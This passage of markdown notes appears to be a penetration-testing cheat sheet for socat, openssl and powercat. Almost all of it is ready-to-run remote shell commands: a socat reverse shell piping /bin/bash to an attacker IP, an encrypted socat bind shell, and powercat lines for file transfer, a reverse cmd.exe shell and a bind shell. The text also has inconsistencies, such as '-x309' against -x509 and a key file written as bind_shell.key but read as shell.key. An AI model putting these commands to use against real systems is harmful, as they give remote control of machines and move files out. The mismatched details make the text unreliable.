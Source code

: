   ```bash
  #Victim's machine
  socat TCP:<Attacker's IP>:443 EXEC:/bin/bash
  ```
  
  ### Encrypted Bind Shells
  We will use **openssl** to create a self-signed cert with the following options:
  * **req**
  * **-newkey**
  * **rsa:2048**
  * **-nodes**
  * **-keyout**
  * **-x309**
  * **-days**
  * **-out**
    ```bash
     openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out shell.crt
     ```
     ```bash
     cat shell.key shell.crt > shell.pem
     ```
     <br>
     
     ```bash
     #Victim's machine
     sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
     ```
     ```bash
     #Attacker's machine
     socat - OPENSSL:<Victim's IP>:443,verify=0
     ```
     
## Powercat
Powercat can be installed in our Kali with *apt install powercat*, and the script will be placed in */usr/share/windows-resources/powercat*.

### File Transfers
```powershell
#Transmitter
powercat -c X.X.X.X -p 443 -i C:\Users\xonork\some_file.txt
```

### Reverse Shell
```powershell
#Victim's machine
powercat -c X.X.X.X -p 443 -e cmd.exe
```

### Bind Shell
```powershell
#Victim's machine
powercat -l -p 443 -e cmd.exe
```
